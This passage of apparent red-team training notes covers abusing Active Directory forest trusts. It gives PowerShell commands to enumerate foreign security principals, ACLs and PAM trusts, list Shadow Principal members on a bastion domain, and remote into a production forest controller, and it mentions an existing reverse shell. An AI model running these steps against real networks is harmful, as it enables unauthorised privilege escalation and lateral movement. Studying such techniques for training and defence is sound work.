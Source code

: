 Using ActiveDirectory module:
```powershell
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"}
```

- Access to resources in a forest trust can also be provided without using FSPs using ACLs.
- Principals added to ACLs do NOT show up in the ForeignSecurityPrinicpals container as the container is populated only when a principal is added to a domain local security group

Let's enumerate ACLs for the dbvendor.local domain using the reverse shell we have on db.local:
```powershell
Find-InterestingDomainAcl -Domain dbvendor.local
```



# Abusing PAM Trust

> PAM trust is usually enabled between a Bastion or Red forest and a production/user forest which it manages.

- PAM trust provides the ability to access the production forest with high privileges without using credentials of the bastion forest. Thus, better security for the bastion forest which is much desired.
- To achieve the above, Shadow Principals are created in the bastion domain which are then mapped to DA or EA groups SIDs in the production forest.

> By enumerating trusts and hunting for access, we can enumerate that we have Administrative access in other forest.

From techcorp-dc:
```powershell
Get-ADTrust -Filter *
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

On bastion-dc, enumerate if there is a PAM trust:
```powershell
$bastiondc = New-PSSession bastion-dc.bastion.local
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc
```

Check which users are members of the Shadow Principals:
```powershell
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc
```

Establish a direct PSRemoting session on bastion-dc and access production.local:
```powershell
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```


All attacks paths:
